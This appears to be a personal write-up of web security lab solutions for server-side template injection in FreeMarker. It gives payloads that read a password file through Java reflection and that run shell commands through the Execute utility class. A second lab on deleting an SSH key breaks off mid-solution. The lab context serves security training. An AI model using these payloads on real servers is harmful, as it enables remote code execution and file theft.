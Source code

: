 ```
This lab uses the Freemarker template engine. It is vulnerable to server-side template injection due to its poorly implemented sandbox. To solve the lab, break out of the sandbox to read the file my_password.txt from Carlos's home directory. Then submit the contents of the file.

**Solution**

1. Log in and edit one of the product description templates. Notice that you have access to the *product* object.
2. Load the JavaDoc for the Object class to find methods that should be available on all objects. Confirm that you can execute *${object.getClass()}* using the product object.
3. Explore the documentation to find a sequence of method invocations that grant access to a class with a static method that lets you read a file, such as:

    ```${product.getClass().getProtectionDomain().getCodeSource().getLocation().toURI().resolve('/home/carlos/my_password.txt').toURL().openStream().readAllBytes()?join(" ")}```

4. Enter this payload in one of the templates and save. The output will contain the contents of the file as decimal ASCII code points.
5. Convert the returned bytes to ASCII.
6. Click the "Submit solution" button and submit this string to solve the lab.

**My solution**

1. Try to catch error message to find which template is used.

    ```${testing}```

2. Find out that is FreeMarker.

    ```
    <#assign classloader=product.class.protectionDomain.classLoader>
    <#assign owc=classloader.loadClass("freemarker.template.ObjectWrapper")>
    <#assign dwf=owc.getField("DEFAULT_WRAPPER").get(null)>
    <#assign ec=classloader.loadClass("freemarker.template.utility.Execute")>
    ${dwf.newInstance(ec,null)("id")}
    ```

3. Write a correct classloader=product:

    ```<#assign classloader=product.class.protectionDomain.classLoader>```

4. Then I can see that it works so I can write this to the last line:

    ```${dwf.newInstance(ec,null)("cat my_password.txt")}```

### Server-side template injection with a custom exploit

This lab is vulnerable to server-side template injection. To solve the lab, create a custom exploit to delete the file /.ssh/id_rsa from Carlos's home directory.

**Solution**

1. While proxying traffic through Burp, log in and post a comment on one of the blogs.
2. Go to the "My account" page. Notice that the functionality for setting a preferred name is vulnerable to server-side template injection, as we saw in a previous lab. You should also have noticed that you have access to the user object.
3. Investigate the custom avatar functionality. Notice that when you upload an invalid image, the error message discloses a method called *user.setAvatar()*. Also take note of the file path */home/carlos/User.php*. You will need this later.
4. Upload a valid image as your avatar and load the page containing your test comment.
5. In Burp Repeater, open the POST request for changing your preferred name and use the *blog-post-author-display* parameter to set an arbitrary file as your avatar:

```